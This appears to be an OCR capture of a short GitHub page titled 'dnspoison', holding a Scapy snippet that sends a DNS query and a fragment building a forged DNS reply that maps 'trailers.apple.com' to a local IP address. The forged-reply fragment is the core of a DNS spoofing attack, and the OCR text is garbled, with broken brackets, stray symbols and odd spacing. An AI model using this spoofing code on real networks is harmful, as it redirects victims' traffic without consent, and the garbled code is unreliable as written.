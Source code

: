 # dnspoison



from scapy.all import *

answer = sr1(IP(dst="8.8.8.8")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="www.thepacketgeek.com")),verbose=0)
print answer[DNS].summary()

Respuesta DNS Scapy:
               spfResp = IP (dst = pkt [IP] .src, src = pkt [IP] .dst) \ 
                    /UDP(dport=pkt[UDP◆.sport, sport = 53) \ 
                    / DNS (id = pkt [DNS]). id, \ 
                              qr = 1L, \ 
                              qd = DNSQR (qname = pkt [DNSQR] .qname), \ 
                              an = DNSRR (rrname = "trailers.apple.com", rdata = localIP) \ 
                              )
